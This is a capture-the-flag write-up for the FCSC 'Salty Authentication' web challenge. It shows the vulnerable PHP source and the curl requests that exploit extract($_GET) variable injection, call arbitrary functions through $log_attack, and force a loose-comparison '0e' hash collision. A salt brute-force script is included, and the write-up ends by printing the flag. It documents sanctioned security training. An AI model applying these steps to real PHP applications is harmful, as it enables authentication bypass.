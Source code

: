 # Salty Authentication
<img alt="Challenge" src="challenge.png" width=300>

When trying to access the given url, we get the following answer:
```php
<?php

error_reporting(0);

include('flag.php');
$salt = bin2hex(random_bytes(12));

extract($_GET);

$secret = gethostname() . $salt;

if (isset($password) && strlen($password) === strlen($secret) && $password !== $secret) {
    if (hash('fnv164', $password) == hash('fnv164', $secret)) {
        exit(htmlentities($flag));
    } else {
        echo('Wrong password!');
        exit($log_attack());
    }
}

highlight_file(__FILE__);

?>
```

The secret string is composed of the hostname of the machine concatenated with a random salt.
The script checks if the "password" parameter was provided in the GET request and if it has the same length as the secret string. If these conditions are met, the hash function "fnv164" is applied to the secret string and the "password" parameter, and the two hashes are compared.

Let's read the php doc of the [extract](https://www.php.net/manual/en/function.extract.php) function:

<img alt="Extract php function documentation" src="php_extract.png">

With this function we can control a number of variables in the script.
This allows us to submit, via a GET request, the $password and $salt parameters.
First, we will try to know the length of the hostname returned by the gethostname() function. To do so, we just have to submit an empty $salt, and iterate on the length of $password until the message 'Wrong password!

```console
dqrkk$ for i in {1..100}; do response=$(curl -s "https://salty-authentication.france-cybersecurity-challenge.fr/?salt=&password=$(python -c 'print "A" * '$i'')") && [[ "$response" == *"Wrong password"* ]] && echo "Password length: $i"; sleep 2; done
Password length: 12
```

The hostname has a length of 12 characters.
In order to go further, we need to know the value of the hostname.
For that, we will use a flaw in the script.
Indeed, when the hashes don't match, the script displays the message "Wrong password!", but it also makes an exit($log_attack()).
This gives us the possibility to call a function by controlling the value of $log_attack.
We will send the string gethostname in the parameter, in order to make the script execute this function.

```console
dqrkk$ curl "https://salty-authentication.france-cybersecurity-challenge.fr/?salt=&password=AAAAAAAAAAAA&log_attack=gethostname"; echo     
Wrong password!9be4a60f645f
```

Hostname is 9be4a60f645f

At this point, all we have to do is find a $password and $salt values that will satisfy the following conditions:

```php
$secret = "9be4a60f645f" . $salt

strlen($password) === strlen($secret)
$password !== $secret
hash('fnv164', $password) == hash('fnv164', $secret)
```

We must therefore find PHP fnv164 hash collisions.
Searching for 'fnv164 collisions' on google, we find a site explaining that it is possible to generate collisions in hashes if the comparison between the 2 hashes uses == to compare them.
It uses the trick that for PHP a string formated lkie '0+e[0-9]+' is evaluated as 0.
So '0e1' == '00e2' == '0' == 0

We just need to find two different salt with the same length that generate a hash that match the previous format.
The following script do the job:

```php
// Générer une chaîne de sel aléatoire de longueur variable contenant des chiffres et des lettres
function generateStrings($min_length, $max_length)
{
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'; // Chiffres et lettres autorisés
    $characters_length = strlen($characters);

    for ($i = $min_length; $i <= $max_length; $i++) {
        $combinations = pow($characters_length, $i); // Nombre total de combinaisons

        for ($j = 0; $j < $combinations; $j++) {
            $string = '';
            $index = $j;

            // Convertir l'index en base $characters_length pour générer une chaîne de caractères unique
            for ($k = 0; $k < $i; $k++) {
                $string .= $characters[$index % $characters_length];
                $index = floor($index / $characters_length);
            }

            yield $string;
        }
    }
}

foreach (generateStrings(1, 20)  as $salt) {
    // Concaténation du secret avec le sel
    $secret = "9be4a60f645f" . $salt;

    // Calcul du hash
    $hash = hash('fnv164', ($secret));

    // Vérification que le hash commence par '0e' suivi de chiffre
    if (preg_match('/^0e\d+$/', $hash)) {
        echo "Salt: $salt, Le hash $hash commence par '0e' suivi de chiffre.\n";
    }
}
```

Let's laucnh it, we obtain:

```console
dqrkk$ php salty.php
Salt: ChI00, Le hash 0e65994470693693 commence par '0e' suivi de chiffres.
Salt: 9iu10, Le hash 0e31697456461001 commence par '0e' suivi de chiffres.
Salt: xQj20, Le hash 0e86686877103172 commence par '0e' suivi de chiffres.
Salt: ChH20, Le hash 0e62314470665024 commence par '0e' suivi de chiffres.
Salt: 9iH20, Le hash 0e42687456548181 commence par '0e' suivi de chiffres.
Salt: xQn30, Le hash 0e78716877040301 commence par '0e' suivi de chiffres.
Salt: xQj40, Le hash 0e86626877102720 commence par '0e' suivi de chiffres.
Salt: xQk40, Le hash 0e89686877126729 commence par '0e' suivi de chiffres.
Salt: xQi50, Le hash 0e90736877189848 commence par '0e' suivi de chiffres.
Salt: xQk50, Le hash 0e89676877126556 commence par '0e' suivi de chiffres.
```

And that's it.
Let's take the first two calculated values.

$password will be 9be4a60f645f9iu10
hash('fnv164', '9be4a60f645f9iu10') = '0e31697456461001'
$secret will be 9be4a60f645fChI00
hash('fnv164', '9be4a60f645fChI00') = '0e65994470693693'

```console
dqrkk$ curl "https://salty-authentication.france-cybersecurity-challenge.fr/?salt=ChI00&password=9be4a60f645f9iu10"; echo  
FCSC{d090643090b9ac9dd7cddc1d830f0457213e5b50e7a59f1fe493df69c60ac054}
```

Flag is FCSC{d090643090b9ac9dd7cddc1d830f0457213e5b50e7a59f1fe493df69c60ac054}


